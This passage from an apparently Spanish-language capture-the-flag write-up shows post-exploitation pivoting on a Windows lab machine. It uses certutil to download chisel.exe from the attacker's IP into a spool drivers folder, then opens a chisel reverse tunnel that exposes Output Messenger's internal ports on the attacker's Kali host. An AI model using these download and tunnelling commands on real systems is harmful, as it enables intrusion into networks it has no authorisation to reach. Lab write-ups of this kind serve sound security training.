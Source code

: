 ```powershell
PS C:\Windows\System32\spool\drivers\color> certutil.exe -f -urlcache -split http://10.10.16.5/chisel.exe chisel.exe
****  Online  ****
  000000  ...
  94f000


CertUtil: -URLCache command completed successfully.
```

Configuraremos el `chisel` como servidor en nuestra máquina Kali, el puerto de servidor que utilizaremos es el _**1234**._

```bash
❯ ./chisel server --reverse -p 1234
2025/01/17 22:40:37 server: Reverse tunnelling enabled
2025/01/17 22:40:37 server: Fingerprint I6Ynm0ZTnuYDUNAGFMMgzfXZBpDcrTUbgapoYk6CTMc=
2025/01/17 22:40:37 server: Listening on http://0.0.0.0:1234
```

Desde la máquina víctima, la configuaremos como cliente para que se conecte al servidor de nuestra Kali. Compartiremos todos los puertos internos que utiliza la aplicación `Output Messenger` para que sean los mismos puertos en nuestra Kali Linux.

{% code overflow="wrap" %}
```powershell
PS C:\Windows\System32\spool\drivers\color> .\chisel.exe client 10.10.16.5:1234 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
```
{% endcode %}

Desde Kali revisaremos que disponemos de los puertos en `LISTEN`, significando que se ha realizado el Port Forwarding correctamente y ya los tenemos accesibles desde nuestro equipo.

```bash
❯ netstat -ano | grep "LISTEN"
tcp6       0      0 :::1234                 :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14121                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14122                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14123                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14125                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14126                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14127                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14118                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14119                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14128                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14130                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14406                :::*                    LISTEN      off (0.00/0/0)
```

### Sharing the OpenVPN Connection from Linux with Windows so we can have two boxes connected simultaniously

